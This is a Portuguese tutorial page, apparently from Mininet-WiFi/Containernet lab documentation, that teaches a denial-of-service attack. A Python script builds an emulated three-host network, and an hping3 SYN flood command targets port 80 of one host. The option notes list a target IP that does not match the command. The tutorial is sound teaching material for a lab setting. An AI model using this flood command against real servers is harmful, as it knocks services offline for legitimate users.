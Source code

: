 ************
Denial of Service (DoS)
************

Um ataque de negação de serviço (DoS) é uma tentativa de fazer com que algum serviço fique indisponível. Diferente de outros tipos de ataque, que estabelecem pontos de apoio ou sequestram dados, ataques DoS não ameaçam dados sensíveis. Este tipo de ataque tem apenas um objetivo de fazer com que sistemas fiquem indisponíveis para usuários legítimos. Contudo, alguns ataques DoS pode também serem usados para criar outros tipos de ataque para outras atividades maliciosas, como, por exemplo, derrubar firewalls de aplicativos da web, etc.).


.. Note::

    **Nesta demo você irá aprender como realizar o ataque de DoS:** 

    **Requisitos:** 
    
    - Containernet - https://github.com/ramonfontes/containernet
    - hping3
    
    **A VM disponível em https://github.com/intrig-unicamp/mininet-wifi deverá possuir todos os recursos necessários para reproduzir este documento. Porém, para utilizar o containernet você deverá entrar no diretório ~/containernet e dentro dele executar o comando `sudo make install` Caso alguma dependência esteja faltando ela terá de ser resolvida.**
    

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:


.. code:: python

    #!/usr/bin/python
     
    """@author: Ramon Fontes
    @email: ramon.fontes@imd.ufrn.br"""

    from containernet.net import Containernet
    from containernet.node import Docker
    from containernet.cli import CLI
    from mininet.log import info, setLogLevel


    def topology():
        net = Containernet()

        info('*** Adding docker containers\n')
        h1 = net.addHost('h1', ip='10.0.0.1', cls=Docker,
                            dimage="ramonfontes/dos-attack")
        h2 = net.addHost('h2', ip='10.0.0.2', cls=Docker,
                         dimage="ramonfontes/dos-attack")
        h3 = net.addHost('h3', ip='10.0.0.254', cls=Docker,
                         dimage="ramonfontes/dos-attack")
        s1 = net.addSwitch('s1', failMode="standalone")

        info('*** Configuring WiFi nodes\n')
        net.configureWifiNodes()

        info("*** Associating Stations\n")
        net.addLink(h1, s1)
        net.addLink(h2, s1)
        net.addLink(h3, s1)

        info("*** Starting network\n")
        net.build()
        s1.start([])

        info('*** Running CLI\n')
        CLI(net)

        info('*** Stopping network\n')
        net.stop()


    if __name__ == '__main__':
        setLogLevel('info')
        topology()


Então, após executar o código, um simples ataque DoS (não DDoS) poderia ser realizado através do comando abaixo:


.. code:: console

  mininet-wifi> h1 hping3 -S --flood -V -p 80 10.0.0.254


.. Note::

   - hping3: carrega o hping3
   - S: especifica pacotes SYN
   - flood: respostas serão ignoradas (é por isso que as respostas não serão mostradas) e os pacotes serão enviados o mais rápido possível
   - V: Verbosity
   - p 80: porta 80
   - 170.155.9.185: IP alvo

